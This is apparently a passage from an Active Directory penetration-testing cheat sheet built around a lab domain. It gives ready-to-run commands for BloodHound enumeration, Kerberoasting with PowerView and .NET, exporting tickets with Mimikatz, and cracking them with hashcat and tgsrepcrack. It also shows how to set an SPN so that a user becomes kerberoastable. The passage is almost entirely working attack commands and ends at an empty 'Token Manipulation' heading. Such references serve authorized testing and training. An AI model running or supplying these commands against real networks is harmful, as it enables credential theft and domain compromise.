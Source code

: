 Run all checks if you don't care about OpSec:
```
Invoke-BloodHound -CollectionMethod All 
```
Running LoggedOn separately sometimes gives you more sessions, but enumerates by looping through hosts:
```
Invoke-BloodHound -CollectionMethod LoggedOn
```

### Installing neo4j
```
neo4j.bat install-service
neo4j.bat start

Browse to http://localhost:7474
Enter the username: neo4j and password: neo4j.
```

## Kerberoasting
### Automatic
With PowerView:
```
Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```
And crack the hash with hashcat:
```
hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```
### Manual
Request TGS for kerberoastable account (SPN):
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```
Dump TGS to disk:
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
Crack with TGSRepCrack:
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi
```

### Make user kerberoastable by setting SPN
We need ACL permissions to set UserAccountControl flags for said user, see above for hunting. Using PowerView:
```
Set-DomainObject -Identity support355user -Set @{serviceprincipalname='any/thing'}
```

## Token Manipulation
